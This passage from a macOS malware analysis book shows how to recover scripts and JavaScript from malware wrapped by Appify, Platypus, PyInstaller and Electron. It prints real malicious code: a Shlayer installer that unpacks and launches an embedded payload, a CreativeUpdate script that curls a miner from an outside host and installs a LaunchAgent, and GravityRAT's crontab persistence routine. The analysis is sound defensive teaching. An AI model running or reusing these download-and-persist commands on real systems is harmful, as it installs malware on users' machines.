files, in the application’s *Contents/Resources/* directory, saved as *.asar* files.    It’s important to note that these tools are legitimate, and many developers use them to generate safe applications. Don’t assume a binary or application is malicious solely because it was packaged up for distribution by one of these tools.    ### Extracting the Nonbinary Component    Let’s now look at various malware samples packaged up using these tools and see exactly how to extract their nonbinary components.    In early 2021, a variant of Shlayer was discovered spreading via poisoned search engine results.^(15) As it was a simple application bundle missing an *Info.plist* file, and other than an icon file only contained a script (whose name, *1302*, matched the application’s), it was likely packaged up via Appify (Figure 5-8).      Figure 5-8: A simple script-based application, likely built via Appify (Shlayer)      As Appify directly adds the scripts, as is, to the application bundle, no special tools are required to extract the script for analysis. And since it’s a script, analysis can commence without the use of any fancy binary static analysis tools (Listing 5-21).    ``` % **file 1302.app/Contents/MacOS/1302**  1302.app/Contents/MacOS/1302: Bourne-Again shell script executable (binary data)  % **cat 1302.app/Contents/MacOS/1302**  #!/bin/bash 1 TEMP_NAME="$(mktemp -t Installer)" 2 tail -c 58853 $0 | funzip -1uD9jgw > ${TEMP_NAME} 3 chmod +x "${TEMP_NAME}" && nohup "${TEMP_NAME}" > /dev/null 2>&1 & killall Terminal exit PK^C^D^T^@... ```    Listing 5-21: A malicious installer script (Shlayer)    After creating a temporary filename 1, the malware unzips password-protected data found at the end of the script into this temporary file 2. It then makes this file executable and launches it 3. Continued analysis identified this embedded payload as the well-known Bundlore malware. Interestingly (and completely unintentionally), applications created by Appify would inadvertently trigger a logic flaw in macOS, allowing such applications to bypass various security mechanisms, such as Gatekeeper and notarization requirements!^(16)    In early 2018, the popular application website MacUpdate posted an alert notifying visitors that certain links on the site had been subverted to point to malware (Figure 5-9).      Figure 5-9: A security warning from MacUpdate      As the links on the site had been compromised, users were inadvertently downloading trojanized applications containing malware. The malware, named CreativeUpdate, would download and install a persistent cryptocurrency miner that malware authors had surreptitiously hosted on Adobe’s Creative Cloud servers.    In a tweet, security researcher Arnaud Abbati noted that it was packaged up via Platypus.^(17) Recall that applications created by Platypus bundle up the script into *Contents/Resources/script*. If we look at a trojanized application, in this case Firefox, infected with CreativeUpdate, we find such a script (Figure 5-10).      Figure 5-10: A malicious installer script embedded via Platypus (CreativeUpdate)      This script is shown in Listing 5-22:    ``` open Firefox.app 1 if [ -f ~/Library/mdworker/mdworker ]; then  killall MozillaFirefox else 2 nohup curl -o ~/Library/mdworker.zip   https://public.adobecc.com/files/1U14RSV3MVAHBMEGVS4LZ42AFNYEFF?content_disposition=attachment &&  unzip -o ~/Library/mdworker.zip -d ~/Library && mkdir -p ~/Library/LaunchAgents &&  mv ~/Library/mdworker/MacOSupdate.plist ~/Library/LaunchAgents && sleep 300 &&  launchctl load -w ~/Library/LaunchAgents/MacOSupdate.plist && rm -rf ~/Library/mdworker.zip &&  killall MozillaFirefox & fi ```    Listing 5-22: A malicious installer script (CreativeUpdate)    As the script is quite readable, we can easily understand the malicious logic. First, it launches the non-trojanized version of Firefox so that nothing appears amiss to the user 1. If the malware is not already installed (to *~/Library/mdworker/mdworker*) the logic in the `else` clause is executed. This downloads and installs a persistent payload from Adobe’s public Creative Cloud servers (*public.adobecc.com*) 2. The payload turns out to be a public command line cryptocurrency miner, *minergate-cli* from MinerGate, as you can see by running it with `-help` (Listing 5-23):^(18)    ``` % **./mdworker -help**   Usage:   minergate-cli [-version] -user <email> [-proxy <url>]                  -<currency> <threads> [<gpu intensity>]                  [-<currency> <threads> [<gpu intensity>] ...]                  [-o <pool> -u <login> [-t <threads>]                 [-i <gpu intensity>]] ```    Listing 5-23: MinerGate’s command line cryptocurrency miner    Once we identified the malware as built with Platypus, we were able to comprehensively analyze it without having to resort to utilizing complex binary analysis methods.    PyInstaller is a useful tool that can package up a Python script into a native macOS binary or application. Unfortunately, malware writers sometimes abuse it, as was the case with the cross-platform malware GravityRAT. Found in a binary named Enigma, the macOS version of GravityRAT is a compiled Mach-O binary, and `strings` reveals it was likely built via PyInstaller (Listing 5-24):    ``` % **file GravityRAT/Enigma** GravityRAT/Enigma: Mach-O 64-bit executable x86_64  % **strings - GravityRAT/Enigma** ... Py_SetPythonHome Error loading Python lib '%s': dlopen: %s Error detected starting Python VM. Python ```    Listing 5-24: Triaging a binary via `file` and `strings` (GravityRAT)    Moreover, the malware’s `main` function simply calls into PyInstaller’s entry point function, `pyi_main`.    Recognizing that the malware was packaged up with PyInstaller is important, as it means we can extract the compiled Python code and then fully decompile it. Reading Python code is, of course, far simpler than reading decompiled assembly. One easy way to extract the compiled Python code is via the open source PyInstaller Extractor tool (Listing 5-25):^(19)    ``` % **python pyinstxtractor.py GravityRAT/Enigma**  [+] Processing Enigma [+] Pyinstaller version: 2.1+ [+] Python version: 27 [+] Length of package: 17113011 bytes [+] Found 458 files in CArchive [+] Beginning extraction...please standby [+] Possible entry point: pyiboot01_bootstrap.pyc [+] Possible entry point: pyi_rth_pkgres.pyc [+] Possible entry point: pyi_rth__tkinter.pyc [+] Possible entry point: Enigma.pyc [+] Found 828 files in PYZ archive [+] Successfully extracted pyinstaller archive: Enigma ```    Listing 5-25: Extracting the contents of a “PyInstallered” binary with `pyinstxtractor` (GravityRAT)    Let’s take a peek at the extracted files, which PyInstaller Extractor places in a directory named *Enigma_extracted* (Listing 5-26):    ``` % **ls -1 Enigma_extracted/** Contents Crypto Enigma.pyc MacOS.so ... ```    Listing 5-26: Extracted Python files (GravityRAT)    Most notable is the *Enigma.pyc* file, which, based on its file extension, likely contains Python bytecode. You can verify that this is the case by running the `file` command. We can readily decompile this bytecode on a site such as [`www.decompiler.com/`](https://www.decompiler.com/), which returns Python code. For a full analysis of GravityRAT’s macOS variant, including the details of the extracted Python logic, see my write-up “Adventures in Anti-Gravity: Deconstructing the Mac Variant of GravityRAT.”^(20)    In fact, GravityRAT has another Mac variant, this time built using Electron. This choice allowed the malware authors to create a native macOS application from cross-platform JavaScript. We can ascertain that this variant is an Electron application by observing the fact that the trojanized application, *StrongBox.app*, is linked against the Electron *Framework.framework* (Listing 5-27):    ``` % **otool -L StrongBox.app/Contents/MacOS/StrongBox**  /System/Library/Frameworks/Cocoa.framework/Versions/A/Cocoa  /System/Library/Frameworks/Foundation.framework/Versions/C/Foundation /System/Library/Frameworks/IOKit.framework/Versions/A/IOKit  ... @rpath/Electron Framework.framework/Electron Framework  ```    Listing 5-27: Viewing linked frameworks (including Electron) with `otool` (GravityRAT)    Moreover, if we examine the application’s *Contents/Resources/* directory, we find a file named *app.asar* (Figure 5-11):      Figure 5-11: Archived source code (GravityRAT)      Often, Electron applications are packaged using Electron’s asar archive format.^(21) Luckily, you can unpack these archives with either the `asar` node module or the `npx` utility, as described in the online tutorial “How to get source code of any electron application.”^(22) In this example, we opt for the latter, using `npx` to unpack the file into an output directory we name *appUnpacked* (Listing 5-28):    ``` % **npx asar extract StrongBox.app/Contents/Resources/app.asar appUnpacked** ```    Listing 5-28: Unpacking source code with `npx` (GravityRAT)    The extracted archive contains various files, the most notable of which are the JavaScript files *main.js* and *signature.js* (Figure 5-12).      Figure 5-12: Unpacked source code files (GravityRAT)      These two JavaScript files contain the malware’s malicious logic. As JavaScript is readily readable when compared to compiled binary code, you should be able to understand the malware’s functionality and capabilities. For example, in the *signature.js* file, we uncover the malware’s persistence techniques. Specifically, a function named `scheduleMac` persists a downloaded payload as a cron job to run every two minutes by leveraging macOS’s built-in `crontab` command (Listing 5-29) 1.    ``` function scheduleMac(fname,agentTask) {   ...   var poshellMac = loclpth+"/"+fname;   execTask('chmod -R 0700 '  + "\"" +  + "\""  );       ...   arg = agentTask;   execTask('crontab -l 2>/dev/null;             echo \' */2 * * * * ' + "\"" +poshellMac + "\" " + arg + '\'           1 | crontab -', puts22);  } ```    Listing 5-29: Persistence via a cron job (GravityRAT)    For a comprehensive analysis of this Electron-based GravityRAT variant, including the extraction and analysis of its JavaScript files, see my write-up “Adventures in Anti-Gravity (Part II) Deconstructing the Mac Variant of GravityRAT.”^(23)    As you’ve seen, a compiled binary or application you encounter may be nothing more than a wrapper or package containing nonbinary code. Once you’ve identified the packaging tool, you may be able to recover the nonbinary code to simplify your analysis.    ## Up Next    In this chapter, we covered the structure of the Mach-O binary format, including headers and relevant load commands. We then discussed various static analysis tools that can triage unknown Mach-O binaries and assist in their classification. These tools can often provide enough information to answer the question, “Is this binary known?” This in turn can allow us to ascertain if it has already been classified as benign or malicious, saving us valuable analysis time and efforts.    However, if a binary appears to be malicious but does not match any known samples, you’ll need a more comprehensive static analysis tool. This tool is the all-powerful disassembler. In the next chapter, we’ll introduce advanced reverse-engineering techniques and show how you can leverage a disassembler to fully deconstruct almost any Mach-O binary.    ## Endnotes````
